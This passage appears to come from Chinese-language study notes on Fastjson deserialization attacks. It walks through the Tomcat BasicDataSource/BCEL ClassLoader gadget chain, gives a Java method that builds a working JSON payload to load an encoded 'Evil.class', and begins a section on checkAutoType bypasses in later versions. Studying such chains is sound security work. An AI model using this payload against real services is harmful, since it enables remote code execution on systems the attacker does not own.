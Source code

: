 7. 知道了 `ClassLoader` 的基本使用方法后，接下来的问题在于如何调用到 `classLoader.loadClass`。Tomcat 中有个类为 `org.apache.tomcat.dbcp.dbcp2.BasicDataSource`。

    1. 首先这个类可以指定 ClassLoader，而且也可以实例化。
    2. 同时这个指定和触发都有对应的 setter 方法。

8. 在 `BasicDataSource#createConnectionFactory()` 中，指定了类加载器和类：
    ![在这里插入图片描述](bae44c93c8644ff3934450075c37b1a7.png)
    高版本中（dbcp 8.5.78)，这里的运行逻辑发生了改变，但是最终执行的结果不变。

9. 指定 ClassLoader 在 `BasicDataSource#setDriverClassName()` 和 `BasicDataSource#setDriverClassLoader()` 中。

10. 触发对象实例化的点在 `BasicDataSource#getConnection()`。

11. 得到的最终 payload 如下：
    ```java
    private static void ClassLoaderGadget() throws IOException, ClassNotFoundException, InstantiationException, IllegalAccessException, SQLException {
        // com.sun.org.apache.bcel.internal.util.ClassLoader 的基本的使用方法
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = fileToBinArray(new File("target/classes/Evil.class"));
        String code = Utility.encode(bytes, true);
        // classLoader.loadClass("$$BCEL$$" + code).newInstance();
    
        // BasicDataSource basicDataSource = new BasicDataSource();
        // basicDataSource.setDriverClassLoader(classLoader);
        // basicDataSource.setDriverClassName("$$BCEL$$" + code);
        // basicDataSource.getConnection();
    
        // payload
        String payload = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\"," +
            "\"DriverClassName\":\"$$BCEL$$" + code + "\"," +
            "\"DriverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}";
        JSONObject jsonObject = JSON.parseObject(payload);
    
    }
    ```

    由于调用的是 `parseObject()`，因此最终的 `getConnection()` 会自动调用。

## 4. Fastjson 高版本绕过

### 4.1 1.2.25-47 版本绕过 - JDNI 链

1. 对比 1.2.24，该版本多了一步：
    ![image-20230516100304433](image-20230516100304433.png)
    原先 1.2.24 时，这里直接进行类加载，但是现在这里多了个检查函数。

2. 分析该函数的逻辑：
    ![checkAutoType-1.2.25](checkAutoType-1.2.25-1684222024311-2.png)

    一般情况下，`autoTypeSupport = false`，然后 `expectClass` 为 null。

